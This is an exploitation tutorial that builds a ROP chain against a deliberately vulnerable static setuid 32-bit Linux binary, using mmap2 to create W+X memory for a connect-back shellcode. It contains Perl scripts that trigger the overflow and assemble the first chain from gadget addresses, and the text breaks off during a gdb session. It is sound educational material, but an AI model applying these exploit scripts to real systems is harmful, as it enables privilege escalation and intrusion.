

1 - Introduction
This paper shows through a scenario how to write a Return Oriented Programming
based exploit which injects and executes a shellcode directly in memory while
bypassing the ASLR and the W^X protections. The required knowledges to follow
this paper are the theory of operating systems, the buffer overflow exploitation
and the shellcodes designing. All programs and source code exposed here are available
on my GitHub repository
rop-with-shellcode [1]
.
2 - Tutorial Companion
All the scripts, sources code and compiled program used here can be found in the
tutorial companion repository hosted on my Github account.
$ git clone https://github.com/VincentDary/rop-with-shellcode.git
3 - Environment
-
Hardware: Intel x86, 32 bits
-
Operating system: GNU/Linux (Archlinux)
-
Development : gcc, gdb, perl, python, bash
-
Tool:
ROPgadget [2]
, netcat
3.2 - Vulnerable Program Sample
The exploit code written in the context of this paper, is tested across the
following program. It is vulnerable to a stack based buffer overflow in the
foo()
function. The string parameter of the
foo()
function is copied in a
local buffer without performs length check. This programming error can lead to a
stack buffer overflow in the
buffer
local variable.
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
int foo(char *str)
{
char buffer[512];
printf("[buffer:0x%x] %s\n\n", &buffer, str);
strcpy(buffer, str);
return 0;
}
int main(int argc, char *argv[])
{
if(argc != 2)
{
sleep(20);
exit(0);
}
else
{
foo(argv[1]);
}
}
3.3 - Exploitation Environment Setting
The target vulnerable binary used in this tutorial is staticly compiled in
32 bit, with a non-executable stack and the stack canaries protection disable.
Then, the vulnerable binary is setted with root owner and the setuid bit.
The environment where the vulnerable binary is executed, provides the ASLR and
the W^X protection.
3.3.1 - Vulnerable Program Build
The vulnerable program sample is compiled with
gcc
in 32 bit (
-m32
) with
a non-executable stack (
-z noexecstack
), the stack canaries are disable
(
-fno-stack-protector
) and with the static option (
-static
) in order to
include a large set of instruction available in the code segment.
$ gcc StackBasedOverflow.c -o StackBasedOverflow \
-g -m32 \
-static \
-z noexecstack \
-fno-stack-protector
Then, the program is setted with the setuid bit and the root owner.
# chmod u+s StackBasedOverflow
# chown root:root StackBasedOverflow
3.3.2 - NX bit and W^X
The NX bit (No-eXecute) is a hardware level memory
protection which allows to mark a memory page as not executable.
On Intel x86 this feature work only if the PAE (Physical Addresse
Extension) is enable via the
PAE
flag of the
cr4
control
register and if the
NXE
flag of the
IA32_EFER
register is set
to 1. After these conditions are in place, the 64th bit of
the PDE or PTE page table entries can be used to mark
a memory page as not executable. Below, the illustration of theses conditions
extract from the Intel manual.

p.2788 Intel 64 and IA-32 Architectures Software Developer's manual, Combined Volumes
For the environment used here, the processor must provide the NX
feature. It can be activated in the BIOS parameters. The
informations contained in
/proc/cpuinfo
show if this CPU option is
available.
$ cat /proc/cpuinfo | grep --color -E nx
flags : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_tsc arch_perfmon pebs bts rep_good nopl xtopology nonstop_tsc cpuid aperfmperf pni pclmulqdq dtes64 monitor ds_cpl vmx smx est tm2 ssse3 sdbg fma cx16 xtpr pdcm pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand lahf_lm abm 3dnowprefetch cpuid_fault epb invpcid_single pti tpr_shadow vnmi flexpriority ept vpid fsgsbase tsc_adjust bmi1 hle avx2 smep bmi2 erms invpcid rtm rdseed adx smap intel_pt xsaveopt ibpb ibrs stibp dtherm ida arat pln pts
The kernel boot messages logs if this protection is taken
an account by the system.
$ dmesg | grep "Execute Disable"
[ 0.000000] NX (Execute Disable) protection: active
The NX bit hardware feature is a key element (but not the only one) to implement
a W^X protection (misnomer). The goal of this protection is to prevent against
the introduction of new executable code into the
process address space.
It consists of these following three important
restrictions on a memory mapping as explain in the
PaX project [4]
(Note: On Intel x86, the PDE or PTE page table
entries doesnt' have a flag to mark a page as no-readable).
-
W^X
write xor execute
: A memory mapping cannot be both writable and executable.
-
X!->W
execute never write
: An executable memory mapping cannot be mark as writable.
-
W!->X
write never execute
: A writable memory mapping cannot be mark as executable.
The NX bit plays a central role to implement these protections. The processors
like the Intel x86, based on a Von Neumann architecture, where data and code are
shared on the same memory, aren't designed to provide this functionality by
default. The NX bit helps to prevent the execution of any injected code in a memory
by setting memory page not executable.
When this CPU option is not available, this functionality can be
approximately emulated by software but is less effective.
When the W^X protection is correctly implemented, this protection is
very efficient against arbitrary execution of an injected code in a
process.
The main techniques to bypass this protection is based on the
ROP (Return Oriented Programming) [5]
and it's derived techniques,
which allows to perform abitrary computations in a process
protected with the W^X protection without code injection.
3.3.3 - ASLR
The ASLR (Address Space Layout Randomization) is a software level protection
which aims to map at a random base address the segments of a process at each
new execution. To be effective this protection must relies on
two main conditions.
-
Compile the binary main application and its libraries as position independent code.
-
Provide an high entropy to generate the address where a segment is loaded.
For this tutorial the ASLR protection must be activated on the system.
$ echo 2 > /proc/sys/kernel/randomize_va_space
The effectiveness of the ASLR depends how it is implemented and how
the protection is integrated with the binary application. When this
protection is correctly implemented and used it is very effective
to protect a process against the most of exploitation codes which need
to know fixed address to work.
However this protection can be bypassed in some cases when the memory map
of the target process can be disclosed. Sometimes, It can be done with an
another dedicated exploit (ex:
Meltdown and Spectre [6]
),
by an other vulnerability in the program which leak its memory map
(ex:
Heartbleed bug [7]
), by a bad integration of the application with the
ASLR (ex: not use of -fpic, -fPIC, -fpie, -fPIE gcc options)
which can left code segments at a predictable address
or by a low entropy of the ASLR.
4 - Return Oriented Programming
The half of the exploit code written in this paper use the ROP (Return Oriented
Programming). This section provides a quick introduction to this technique on
Intel x86 architecture and focus the ROP technique on the reuse of code
fragments also know as borrowed code chunks.
4.1 - Introduction
The ROP is a technique which allows to perform arbitrary computation in a target
process without inject any foreign executable code.
The classic way to perform an arbitrary code
execution in a target process is to hijack the execution flow to redirect it in
a shellcode injected generaly in a data memory segment. At the opposite,
in ROP based on borrowed code chunks, the hijacked execution flow is redirected
on existing sequences of executable code located in executable memory
segments provides by the process itself or by shared executable objects like
the external libraries or VDSO. Then, the execution flow executes legitimate
fragments of code contain in the process address space.
A ROP exploit requires the control of the stack, or when it is not possible,
requires to pivot the stack pointer to a controlled memory area. Another
important parameter to write a ROP based exploit is to know predictable
addresses where to find executable code. This latter point, is made difficult by
the ASLR protection but possible in some cases and in some exploitation
conditions.
The principal benefit of ROP compared to code injection, is that technique
bypass totaly the W^X protection against exploit codes, which allows to
execute code only in a memory page marked as executable.
4.2 - What is a Gadget
In ROP, a gadget is a sequence of instructions selected to modify registers and
terminated by an instruction which performs a return, like the
ret
instruction in order to pop the next
address located on the top of the controled stack on the instruction pointer
register in order to redirect the execution to an another gadget.
Note that any indirect control transfer instruction can also be used to redirect
the execution flow to another part of code.
The following example is an instruction sequence which
correspond to a gadget.
inc eax
ret
This gadget increments the
eax
register and redirect the execution flow on the instruction pointed by the
address contain in the top of the stack.
4.3 - Find Gadgets
A first way to find gadget is to dissassemble an executable file or its
shared libraries to find a group of instruction terminated by an instruction
which return. This can be done with a lot of tools, programmaticly or with a
dedicated tool.
An example in command line with objdump and a grep filter.
The output is cutted for readbility.
$ objdump -D -Mintel StackBasedOverflow | grep -B 5 -E ret
...
0806f490 <_dl_sysinfo_int80>:
806f490: cd 80 int 0x80
806f492: c3 ret
...
Or, with a decicated tool like ROPgadget. The output is cutted for readbility.
$ ROPgadget --binary StackBasedOverflow
...
0x08084581 : adc al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080bb11e : adc al, 0x5b ; pop esi ; pop edi ; ret
0x0804fc83 : adc al, 0x5b ; pop esi ; ret
...
Or programmaticly if you need to perform custom task, here an exemple in
python with Capstone and Pyelftools.
import sys
from elftools.elf.elffile import ELFFile
from capstone import Cs, CS_ARCH_X86, CS_MODE_32
def find_gadgets(elf_file, section):
""" find rop gadgets in a elf file section """
with open(elf_file, 'rb') as f:
elf_file = ELFFile(f)
code = elf_file.get_section_by_name(section)
opcodes = code.data()
addr = code['sh_addr']
md = Cs(CS_ARCH_X86, CS_MODE_32)
instructions=[]
for i in md.disasm(opcodes, addr):
instructions.append([bytes(i.bytes), i.address])
if i.mnemonic == 'ret':
print('---')
for z in instructions[-5:]:
for prev_i in md.disasm(z[0], z[1]):
print("0x%x:\t%s\t%s"
% (prev_i.address, prev_i.mnemonic, prev_i.op_str))
if __name__ == '__main__':
""" entry point """
if len(sys.argv) == 3:
find_gadgets(sys.argv[1], sys.argv[2])
$ python3 find_gadgets.py StackBasedOverflow .text
...
0x80bb7ef: pop ebx
0x80bb7f0: pop esi
0x80bb7f1: pop edi
0x80bb7f2: pop ebp
0x80bb7f3: ret
...
4.4 - Chain Gadgets
A ROP based exploit chains the execution of gadgets to perform abitrary
computation and to achieve its desired task like open a socket
or execute a subcommand.
Bellow a basic exemple of ROP in a program vulnerable to a stack buffer
overflow. Here the stack of a vulnerable function before its corruption.
Low addresse
| |
|----------------| <- esp
| |
| BUFFER |
| |
|----------------|
| CHUNK |
|----------------| <- ebp
| SAVE EBP |
|----------------|
| RETURN ADRESSE |
|----------------|
| ARG_1 |
|----------------|
| |
High addresse
Next, a buffer overflow overwrites the return address of the
foo()
function with the address of the
pop edx
gadget, followed by a
chunck value of four bytes (
0xdeadbeef
) and then the address of
the
inc eax
gadget.
Low adresse
| |
|----------------| <- esp
| CORRUPTED |
| BUFFER |
| |
|----------------|
|overflow padding|
|----------------| <- ebp
|overflow padding|
|----------------|
| 0x080e7ba5 | --------------> 0x80e7ba5 pop edx
|----------------| 0x80e7ba6 ret
| 0xdeadbeef |
|----------------|
| 0x0807a4f6 | --------------> 0x807a4f6 inc eax
|----------------| 0x807a4f7 ret
| |
High adresse
When the
foo()
function returns in the calling function
the
leave; ret
instructions are executed. The
leave
instruction copies the value of the
ebp
register in the
esp
register and the old frame pointer is popped from
the stack into the
ebp
register to restore the calling
procedure’s stack frame.
Low addresse
| |
|----------------|
| CORRUPTED |
| BUFFER |
| |
|----------------|
|overflow padding|
|----------------|
|overflow padding|
|----------------| <- esp
| 0x080e7ba5 | --------------> 0x80e7ba5 pop edx
|----------------| 0x80e7ba6 ret
| 0xdeadbeef |
|----------------| <- ebp
| 0x0807a4f6 | --------------> 0x807a4f6 inc eax
|----------------| 0x807a4f7 ret
| |
High addresse
Then, the
ret
instruction pops the value pointed by
esp
in
the
eip
register (now
esp
point to the
0xdeadbeef
value)
and
eip
point to
0x080e7ba5
, so the execution flow is
redirected to the
pop edx
instruction.
Low addresse
| |
|----------------|
| CORRUPTED |
| BUFFER |
| |
|----------------|
|overflow padding|
|----------------|
|overflow padding|
|----------------|
| 0x080e7ba5 | --------------> 0x80e7ba5 pop edx <- eip
|----------------| <- esp 0x80e7ba6 ret
| 0xdeadbeef |
|----------------| <- ebp
| 0x0807a4f6 | ---------------> 0x807a4f6 inc eax
|----------------| 0x807a4f7 ret
| |
High addresse
The
pop edx
instruction of the first gadget pops the
0xdeadbeef
value in the
edx
register (now
esp
point to
0x0807a4f6
value).
Next, the
ret
instruction is executed and pops the value pointed by
esp
in the
eip
register and
eip
point to
0x0807a4f6
, so the
execution path is redirected to the
inc eax
instruction.
Low addresse
| |
|----------------|
| CORRUPTED |
| BUFFER |
| |
|----------------|
|overflow padding|
|----------------|
|overflow padding|
|----------------|
| 0x080e7ba5 | --------------> 0x80e7ba5 pop edx
|----------------| 0x80e7ba6 ret
| 0xdeadbeef |
|----------------| <- ebp
| 0x0807a4f6 | ---------------> 0x807a4f6 inc eax <- eip
|----------------| <- esp 0x807a4f7 ret
| |
High addresse
As the example shows, with the ROP technique it is possible to set the values
of registers by various ways. But it can be very time consumming to find the
appropiates gadgets to performs task like a syscall. It is why there are
framework designed specialy for this task as angrop, ropeme or roputils.
5 - Vulnerability triggering
Below, a Perl script which generates a payload to trigger the stack buffer
overflow in the
foo()
function of the vulnerable program example.
#!/usr/bin/perl
use strict;
use warnings;
my $padding_overflow = 524;
my $buffer = "";
my $deadbeef = "\xef\xbe\xad\xde";
$buffer = 'A' x $padding_overflow;
$buffer .= $deadbeef;
print $buffer;
The payload overflows the local
buffer
variable in the
foo()
function and
overwrites the return addresse with the
0xdeadbeef
value. This script will be
modified and completed over the course of this paper .
$ ./StackBasedOverflow $(./trigger_bof.pl)
[buffer:0xff98b2b0] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
Segmentation fault
The system log journal shows the correct overwrite of the return address of
the
foo()
function.
# journalctl -f
Jan 11 02:05:20 solid kernel: StackBasedOverf[2812]: segfault at deadbeef ip 00000000deadbeef sp 00000000ffba8c80 error 14
6 - Exploitation Surface
Now, a vulnerability can be triggered via a stack buffer overflow
and the execution flow of the process hijacked, this section
shows what to exploit in the process.
In the scenario designed here, the vulnerable binary
is executed in a 32 bit GNU/Linux environment protected by the W^X and the
ASLR protections. How effective are these two protections in this scenario?
The vulnerable program is designed to sleep 20 seconds when it is called without
argument. This behaviour is helpful to analyse the program memory map. Below
the program is executed in background two times and
the
/proc/${!}/maps
shows the process memory map of the resulting process.
$ ./StackBasedOverflow & cat /proc/${!}/maps
[3] 5556
08048000-080ec000 r-xp 00000000 fe:00 22418444 /home/snake/StackBasedOverflow
080ec000-080ee000 rw-p 000a3000 fe:00 22418444 /home/snake/StackBasedOverflow
080ee000-080ef000 rw-p 00000000 00:00 0
08ab0000-08ad2000 rw-p 00000000 00:00 0 [heap]
f7728000-f772b000 r--p 00000000 00:00 0 [vvar]
f772b000-f772d000 r-xp 00000000 00:00 0 [vdso]
ffbb6000-ffbd7000 rw-p 00000000 00:00 0 [stack]
$ ./StackBasedOverflow & cat /proc/${!}/maps
[4] 5558
08048000-080ec000 r-xp 00000000 fe:00 22418444 /home/snake/StackBasedOverflow
080ec000-080ee000 rw-p 000a3000 fe:00 22418444 /home/snake/StackBasedOverflow
080ee000-080ef000 rw-p 00000000 00:00 0
089b9000-089db000 rw-p 00000000 00:00 0 [heap]
f7789000-f778c000 r--p 00000000 00:00 0 [vvar]
f778c000-f778e000 r-xp 00000000 00:00 0 [vdso]
ffe45000-ffe66000 rw-p 00000000 00:00 0 [stack]
Concerning the ASLR protection, as show in red in the previous output, there are
segments loaded at a fixed predictable
address between two execution, and one of this segment it flagged as executable.
So, the ASLR seems to not work correctly in this scenario, the protection impacts
only the heap, vvar, vdso and the stack segments. This behaviour is induce by
a bad integration of the ASLR with the binary. The program is compiled
with the
-static
switch which produce a position dependante executable
file, the side effects of this parameters induce that
the executable code can't be mapped at random base address.
This option has been voluntarily selected to introduce a vulnerable
surface in the binary. This problem can be overcome here
with the
-static-pie
option.
Concerning the W^X protection the previous output shows that
all the segments of the process are mapped as write or
execute but not both. So, the W^X protection
work correctly concerning the mapping of the binary in memory.
An another side to check concerning the W^X protection,
is to check if the three important restrictions W^X, X!->W and W!->X
about a memory mapping are respected.
To test these restrictions a
little program
w_xor_x_test.c [10]
,
I have written C available
on my github repository is used, It tests if the expected restrictions on
creation and modification of a memory mapping are respected
by the implementaion of the
mmap()
and
mprotect()
syscalls.
$ gcc -m32 -z noexecstack w_xor_x_test.c
$ ./w_xor_x_test
[i] Test x^w
[+] New W+X memory page at 0xf7fdd000.
[+] WRITE memory page code has succeeded.
[+] EXECUTE memory page code has succeeded.
[+] Executable code successfully executed.
[i] Test W->X
[+] New W memory page at 0xf7fdc000.
[+] WRITE memory page code has succeeded.
[+] Change memory page permission to X.
[+] EXECUTE memory page code has succeeded.
[+] Executable code successfully executed.
[i] Test x->w
[+] New X memory page at 0xf7fdb000.
[+] Change memory page permission to W.
[+] WRITE memory page code has succeeded.
The output shows that a memory page can be created with the W+X protections.
By default without any patch, Linux allows this behaviour,
due to the principal need of the JIT
(just in time compilation) for the interpreted languages.
So, this induce that an executable code can be added in the
process address space at runtime.
So, the exploitation conditions are the following.
-
The instruction pointer can be hijacked.
-
The stack can be written.
-
A segment with the execute flag (.text section) is loaded at a predictable address.
-
A segment with the write flag is loaded at a predictable address.
-
A memory page with W+X protections can be mapped in memory, writted and executed.
This set of conditions allow to write an exploit which use the ROP
technique to load and execute a shellcode. The next section of this
paper shows how to write it.
7 - Exploit Writing
7.1 - Design
As show in the previous section the executable code of the vulnerable program
exemple is loaded at a
predictable base address at each new execution, the execution flow of
the process can be hijacked and the stack is controlled, so all this conditions
will be used to write a ROP based exploit. The exploit exposes here
will use the weakness in the default Linux implementation of the W^X protection
to inject a shellcode in the process and execute it. Then the shellcode
will realise the more complexes operations like
opening a socket, start a shell... its the brain of this payload.
The following schema shows the structure of the exploit.
+-------------------+
| |
| ROP CHAIN 1 |
| |
| W + X |
| |
| memory mapping |
| |
+-------------------+
| |
| ROP CHAIN 2 |
| |
| shellcode loader |
| + |
| embedded |
| shellcode |
| |
+-------------------+
| |
| ROP CHAIN 3 |
| |
| shellcode caller |
| |
+-------------------+
The part named
ROP CHAIN 1
, is responsible for mapping
a new memory aera in the proccess address space with the
writeable and the executable protection access, via the
mmap()
syscall,
as show in the previous section Linux allows
this behaviour by default.
The second part named
ROP CHAIN 2
, is responsible
for loading an embedded shellcode in the
new memory mapping created by
ROP CHAIN 1
.
The third part named
ROP CHAIN 3
, is responsible
for redirecting the execution path at the start address of
the new memory mapping created by
ROP CHAIN 1
, in
order to execute the shellcode loaded in this area by
ROP CHAIN 2
.
Then, the loaded shellcode is executed, here a connect back shellcode is used.
Every parts of this payload named
ROP CHAIN *
are
implemented in ROP based on code reuse.
The embedded shellcode is a classic shellcode written in ASM.
This paper introduces only the creation of the part in ROP.
The shellcode designing is not considered here.
1) Low addresses 2) Low addresses 3) Low addresses
|----------------| |----------------| |----------------|
| | | | | |
| | eip-->| | | |
| .text | | .text | | .text |
| | | | | |
eip-->| | | | | |
|----------------| |----------------| |----------------|
| .data | | .data | | .data |
|----------------| |----------------| |----------------|
| .bss | | .bss | | .bss |
|----------------| |----------------| |----------------|
| | | | | |
| .heap | | .heap | | .heap |
| | | | | |
|----------------| |----------------| |----------------|
| | | | | |
|----------------| |----------------| eip-->|----------------|
| new memory | | loaded |<------- | loaded |<-------
| area |<------- | shellcode | | | shellcode | |
| RWX | | | | | | | |
|----------------| | |----------------| | |----------------| |
| | creating new | | loading | | redirecting
| | memory area | | shellcode | | eip
| | | | | | | | |
|----------------| | |----------------| | |----------------| |
| | | | | | | | |
| ROP CHAIN 1 |-------- | ROP CHAIN 1 | | | ROP CHAIN 1 | |
| | | | | | | |
esp-->|----------------| |----------------| | |----------------| |
| | | | | | | |
| ROP CHAIN 2 | | ROP CHAIN 2 |-------- | ROP CHAIN 2 | |
| + | | + | | + | |
| shellcode | | shellcode | | shellcode | |
|----------------| esp-->|----------------| |----------------| |
| | | | | | |
| ROP CHAIN 3 | | ROP CHAIN 3 | | ROP CHAIN 3 |--------
| | | | | |
|----------------| |----------------| esp-->|----------------|
High addresses High addresses High addresses
7.2 - ROP CHAIN 1: Create a New W+X Region
7.2.1 - mmap Syscall Overwiew
The unic way to create memory with protection access on Linux is
through the
mmap
syscall.
Below, the
mmap()
interface provides by the GLIBC, documented in the man 2.
MMAP(2)
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
The
addr
and the
length
arguments allow to specify the
start address of the new memory area and its size.
If the
addr
parameter is NULL, the kernel selects
the address to create it.
Here, this last feature is used and allows to overcome
of any hard-coded memory address and so, to benefit
from some portability.
The
length
parameter will be fixed to 96 (0x60) bytes
which is the size of the shellcode used in the next steps.
The flags parameters will be set with the combination
of the
MAP_PRIVATE
and
MAP_ANONYMOUS
constant
which allows to create a new empty memory mapping
which will be not backed by any file and which will not share
with other processes.
The
prot
parameter will be set with the combination oh the
PROT_WRITE
and
PROT_EXEC
constants to mark the new memory area
with the write and execute access.
Below, the
mmap()
function completed with the
necessary values for the exploit write here in order
to create a new memory area with the
W+X protectections access.
mmap(NULL, 96, PROT_EXEC|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, -1, NULL);
Then, a tiny program is use to provides the values of
the combined constants
PROT_EXEC|PROT_WRITE
and
MAP_ANONYMOUS|MAP_PRIVATE
.
#include <sys/mman.h>
#include <stdio.h>
void main(void)
{
printf("PROT_EXEC | PROT_WRITE: 0x%x\nMAP_ANONYMOUS | MAP_PRIVATE: 0x%x\n",
PROT_EXEC|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE);
}
$ gcc -m32 mmap_args.c -o mmap_args
$ ./mmap_args
PROT_EXEC | PROT_WRITE: 0x6
MAP_ANONYMOUS | MAP_PRIVATE: 0x22
The system call number assigned to
mmap
is available in the
kernel source
arch/x86/syscalls/syscall_32.tbl
or in
the kernel header
/usr/include/asm/unistd_32.h
.
$ cat /usr/include/asm/unistd_32.h | grep mmap
#define __NR_mmap 90
#define __NR_mmap2 192
The output shows there are two
mmap
syscall provides
by the linux kernel. The
MMAP(2)
manual of the
mmap()
interface provides by the GLIBC for the
mmap
syscall
supplies the following informations.
MMAP(2)
C library/kernel differences
This page describes the interface provided by the glibc mmap() wrapper function. Originally, this function inv-oked a system call of the same name. Since kernel 2.4, that system call has been superseded by mmap2(2), and nowadays the glibc mmap() wrapper function invokes mmap2(2) with a suitably adjusted value for offset.
In fact, the
mmap()
wrapper of the GLIBC performs the
mmap2 syscall by adjusting the value of the
offset
argument.
Here, the
MAP_ANONYMOUS
constant is used for the
prot
argument and
induces that the
offset
argument is ignored,
so this work doesn't need to do to invoke the mmap2 syscall.
The exploit write here use the mmap2 syscall,
but mmap is yet available and it
has been tested successfully in parallel. The main difference between
the two syscalls is the method use to pass the arguments to the syscall.
For mmap2, the arguments are passed in the registers of
the processor, whereas for mmap, the arguments are store in a data
structure and only a pointer to this structure
is passed in the
eax
register. The version of
this payload with mmap [8]
is available on my GitHub repository. It is significantly larger and complexe than the version with mmap2, that is why this paper expose the version with mmap2.
Finally, the operations to realize in the
ROP CHAIN 1
to perform the mmap2
syscall are the following, according to the x86 Linux calling convention:
-
Put the values
0x0
,
0x60
,
0x6
,
0x22
,
0xffffffff
,
0x0
of the mmap2 arguments respectively in the registers
ebx
,
ecx
,
edx
,
esi
,
edi
and
ebp
.
-
Put the value
0xc0
of the mmap2 syscall in the
eax
register.
-
Call the
int $0x80
instruction to switch in kernel mode to execute the mmap2 syscall.
7.2.2 - Build
The dedicated tool
ROPgadget
[2]
is used here to extract
the available gadgets in the executable section of the vulnerable program sample.
$ ROPgadget --binary StackBasedOverflow > gadgets_list.txt
The first time, finding a sequence of gadgets to perform the desired
task can take a lot of time. One approach, consists in filtering the
output of the gadget extractor used in order to
find the required gadgets to fill the CPU registers with
the right values.
Then, it's possible to optimise it manualy. Below, the selectionned gadgets
to realize the mmap2 syscall, after some manual optimization.
0x080481a9 : pop ebx ; ret
0x080db9df : pop ecx ; ret
0x0806ed4a : pop edx ; ret
0x08048480 : pop edi ; ret
0x080483e6 : pop ebp ; ret
0x080b9526 : pop eax ; ret
0x080d8b3d : inc ebx ; ret
0x0805c9f7 : inc edx ; ret
0x0806c09c : inc ebp ; ret
0x0805c05f : mov esi, edx ; ret
0x0805429c : sub eax, edx ; ret
0x0806f490 : int 0x80 ; ret
0x0809c5a2 : sub ecx, edx ; not eax ; and eax, ecx ; ret
0x0809c5e3 : sub edx, eax ; mov eax, edx ; sar eax, 0x10 ; ret
Below, the resulting script which builds
ROP CHAIN 1
and
prints it to the standard output. The operations performs by
ROP CHAIN 1
are very straightforward to understand.
It overflows 32 bits values to obtain some registers to zero
and performs subtractions to obtain registers to a specific values,
then it performs the
int 0x80
interruption to invoke the mmap2 syscall.
rop_chain_1.pl
#!/usr/bin/perl
use strict;
use warnings;
my $binary_name = "StackBasedOverflow";
my $padding_overflow = 524;
my $buffer = "";
my $ffffffff = "\xff\xff\xff\xff";
# gadgets section
#
my $pop_ebx = "\xa9\x81\x04\x08"; # 0x080481a9 : pop ebx ; ret
my $pop_ecx = "\xdf\xb9\x0d\x08"; # 0x080db9df : pop ecx ; ret
my $pop_edx = "\x4a\xed\x06\x08"; # 0x0806ed4a : pop edx ; ret
my $pop_edi = "\x80\x84\x04\x08"; # 0x08048480 : pop edi ; ret
my $pop_ebp = "\xe6\x83\x04\x08"; # 0x080483e6 : pop ebp ; ret
my $pop_eax = "\x26\x95\x0b\x08"; # 0x080b9526 : pop eax ; ret
my $inc_ebx = "\x3d\x8b\x0d\x08"; # 0x080d8b3d : inc ebx ; ret
my $inc_edx = "\xf7\xc9\x05\x08"; # 0x0805c9f7 : inc edx ; ret
my $inc_ebp = "\x9c\xc0\x06\x08"; # 0x0806c09c : inc ebp ; ret
my $mov_esi_edx = "\x5f\xc0\x05\x08"; # 0x0805c05f : mov esi, edx ; ret
my $sub_eax_edx = "\x9c\x42\x05\x08"; # 0x0805429c : sub eax, edx ; ret
my $int_80 = "\x90\xf4\x06\x08"; # 0x0806f490 : int 0x80 ; ret
my $sub_ecx_edx__not_eax__and_eax_ecx = "\xa2\xc5\x09\x08"; # 0x0809c5a2 : sub ecx, edx ; not eax ; and eax, ecx ; ret
my $sub_edx_eax__mov_eax_edx__sar_eax_0x10 = "\xe3\xc5\x09\x08"; # 0x0809c5e3 : sub edx, eax ; mov eax, edx ; sar eax, 0x10 ; ret
# set the stack padding overflow
my $buffer = 'A' x $padding_overflow;
#********************
# memory allocator
#********************
# mmap(0,sizeof(shellcode),PROT_EXEC|PROT_WRITE,MAP_ANONYMOUS|MAP_PRIVATE,-1,0);
# arg1 : unsigned long addr = 0
$buffer .= $pop_ebx; # EBX = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_ebx; # EBX = 0x00000000
# arg2 : unsigned long len = sizeof(shellcode)
$buffer .= $pop_ecx; # ECX = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $pop_edx; # EDX = 0xffffff9f
$buffer .= "\x9f\xff\xff\xff";
$buffer .= $sub_ecx_edx__not_eax__and_eax_ecx; # ECX = 0x00000060
# arg4 : unsigned long flags = MAP_ANONYMOUS|MAP_PRIVATE
$buffer .= $pop_eax; # EAX = 0xffffffdd
$buffer .= "\xdd\xff\xff\xff";
$buffer .= $pop_edx; # EDX = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $sub_edx_eax__mov_eax_edx__sar_eax_0x10; # EDX = 0x00000022
$buffer .= $mov_esi_edx;
# arg5 : unsigned long fd = -1
$buffer .= $pop_edi; # EDI = 0xffffffff
$buffer .= $ffffffff;
# arg6 : unsigned long offset = 0
$buffer .= $pop_ebp; # ESI = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_ebp; # ESI = 0x00000000
# Set the syscall number in EAX
$buffer .= $pop_eax; # EAX = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $pop_edx; # EDX = 0xffffff3f
$buffer .= "\x3f\xff\xff\xff";
$buffer .= $sub_eax_edx; # EAX = 0x000000c0
# arg3 : unsigned long prot = PROT_EXEC|PROT_WRITE
$buffer .= $pop_edx; # EDX = 0xffffffff
$buffer .= $ffffffff;
$buffer .= $inc_edx x 7; # EDX = 0x00000006
# perform the mmap2 syscall
$buffer .= $int_80; # EAX = @new_executable_memory
print $buffer;
Below, the inspection with gdb of
ROP CHAIN 1
injected in the target program.
Breakpoints are placed before and after the buffer corruption
at the
strcpy()
function call, and at the
ret
instruction of the
foo()
function.
$ gdb -q StackBasedOverflow
Reading symbols from StackBasedOverflow...done.
(gdb) set disassembly-flavor intel
(gdb) x/20i *foo
0x80488ac <foo: push ebp
0x80488ad <foo+1>: mov ebp,esp
0x80488af <foo+3>: sub esp,0x208
